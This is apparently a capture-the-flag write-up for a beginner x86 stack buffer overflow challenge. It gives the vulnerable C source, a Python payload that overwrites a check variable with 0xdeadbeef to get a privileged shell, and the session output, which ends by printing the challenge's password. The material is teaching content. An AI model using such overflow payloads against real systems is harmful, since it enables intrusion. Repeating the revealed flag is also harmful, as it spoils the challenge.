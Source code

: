 # ELF x86 - Stack buffer overflow basic 1


Simple challenge to introduce people to classic stack-based buffer overflows, no ACE, very basic

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>

int main()
{

  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

Stack

| ================ Memory ================ |
| ---------------------------------------- |
| check = 0x04030201 (4)                   |
| buf (40)                                 |

POC
```bash
app-systeme-ch13@challenge02:~$ python -c "print('A' * 40 + 'BBBB')" | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[check] 0x42424242
[check] 0x42424242

You are on the right way!

```

FINAL
```bash
Bye.
app-systeme-ch13@challenge02:~$ (python -c "print('A' * 40 + '\xef\xbe\xad\xde')
" ; cat ) | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭÞ
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
whoami
app-systeme-ch13-cracked
cat .passwd
1w4ntm0r3pr0np1s
```